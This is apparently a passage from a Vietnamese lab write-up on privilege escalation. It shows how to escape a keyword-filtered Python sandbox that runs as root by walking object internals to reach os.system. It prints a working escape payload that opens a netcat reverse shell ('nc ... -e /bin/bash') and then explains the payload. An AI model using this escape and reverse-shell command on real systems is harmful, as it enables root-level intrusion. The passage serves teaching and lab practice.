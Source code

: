 ![image](https://raw.githubusercontent.com/tranquac/Blog_Image/master/mylab1/36.jpg)

Command đầu tiên không thể được lợi dụng để leo thang đặc quyền

![image](https://raw.githubusercontent.com/tranquac/Blog_Image/master/mylab1/37.jpg)

Vì để lấy được shell phải chờ một khoảng thời gian rất lâu, cũng không có input hay untrusted data nào có thể lợi dụng được

Lệnh thứ 2 cho phép ta mở một sandbox python dưới đặc quyền của root

![image](https://raw.githubusercontent.com/tranquac/Blog_Image/master/mylab1/38.jpg)

Mục tiêu là từ sandbox làm sao ta có thể thực thi được os command lấy được shell root.

Nội dung es2.py

![image](https://raw.githubusercontent.com/tranquac/Blog_Image/master/mylab1/39.jpg)

Ở đây. Sandbox đã được xoá hết func, lib mà ta có thể lợi dụng để gọi OS command: import, exec, eval, os …

Nếu lệnh của chúng ta không chứa những từ khoá này thì sẽ được thực thi. Còn không thì sẽ đưa ra cảnh báo:

![image](https://raw.githubusercontent.com/tranquac/Blog_Image/master/mylab1/40.jpg)

Vì vậy làm sao để có thể thực thi được os command từ sandbox này?

Khi chúng ta không  thể import modules hay những modules mà chúng ta muốn import bị cấm. 

Ý tưởng tương tự khi chúng ta khai thác lỗ hổng SSTI. Được biết mỗi đối tượng trong python đều có các properties, method ẩn. Liệu từ những properties hay method ẩn này chúng ta có thể làm một điều gì đó lớn lao?

Ví dụ một payload giúp escape sandbox này:

```print(().__class__.__bases__[0].__subclasses__()[59].__init__.func_globals['linecache'].__dict__['o'+'s'].__dict__['sy'+'stem']('nc 127.0.0.1 4444 -e /bin/bash'))```

![image](https://raw.githubusercontent.com/tranquac/Blog_Image/master/mylab1/41.jpg)

Chúng ta hãy cùng đi sâu 1 chút để hiểu hơn về payload này hoạt động ra sao:

Khi làm SSTI tôi thường quan tâm đến method __init__ khi nó xuất hiên, là một method thú vị, từ nó chúng ta hay có thể làm được 1 điều gì đó thú vị như: in ra toàn bộ biến globals, RCE …

() được biết đến như cách khai báo một tuple trong python

![image](https://raw.githubusercontent.com/tranquac/Blog_Image/master/mylab1/42.jpg)

Sử dụng dir để xem toàn bộ properties hay method ẩn của 1 tuple

![image](https://raw.githubusercontent.com/tranquac/Blog_Image/master/mylab1/43.jpg)

```.__class__``` ( is a reference to the type of the current instance)

![image](https://raw.githubusercontent.com/tranquac/Blog_Image/master/mylab1/44.jpg)

Kiên trì tìm kiếm bằng cách sử dụng dump hay tìm kiếm 1 payload mà đã được tìm ra trước đó. Ta có thể thấy ```__init__``` xuất hiện tại:

![image](https://raw.githubusercontent.com/tranquac/Blog_Image/master/mylab1/45.jpg)

Tiếp tục đi sâu vào ```__init__``` ta sẽ tìm thấy một con đường giúp chúng ta gọi đến được os lib bằng cách sử dụng ```func_globals['linecache']``` có trong ```__init__```

![image](https://raw.githubusercontent.com/tranquac/Blog_Image/master/mylab1/46.jpg)

```
